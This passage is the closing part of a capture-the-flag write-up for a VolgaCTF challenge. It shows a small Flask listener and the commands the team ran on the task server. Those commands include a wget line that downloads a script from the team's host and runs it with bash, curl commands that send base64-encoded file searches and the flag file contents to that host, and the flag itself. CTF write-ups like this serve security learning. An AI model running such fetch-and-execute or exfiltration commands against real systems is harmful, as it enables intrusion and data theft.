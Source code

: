 ```python
    except Exception as e:
        lock = False
        return str(e), 500

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=4042, threaded=True)
```

And now execute command as following:
```python
echo 'cmd' > cmd.txt
exec_sh("wget -O /tmp/asdqwe sibears.ru:4042/cmd"); exec_sh('bash /tmp/asdqwe')
```

After fucking hours of looking for flag in the Share Point the first thing we've done - run the find command:
```bash 
find / -name "*flag*" | base64 | curl -d @- sibears.ru:4042/print
```

Which gives us flag location "/flag":
```bash
cat /flag | base64 | curl -d @- sibears.ru:4042/print
```

Flag: `VolgaCTF{troll_is_dead_now_we_win_the_battle}`

## P.S.

Ofc our solution isn't optimal but it reflects our way to get the flag, so I believe that it can be useful.

If you are sure that you can do it faster, we steal [app sources](./task) just btw, so you can try to pwn it by yourself.
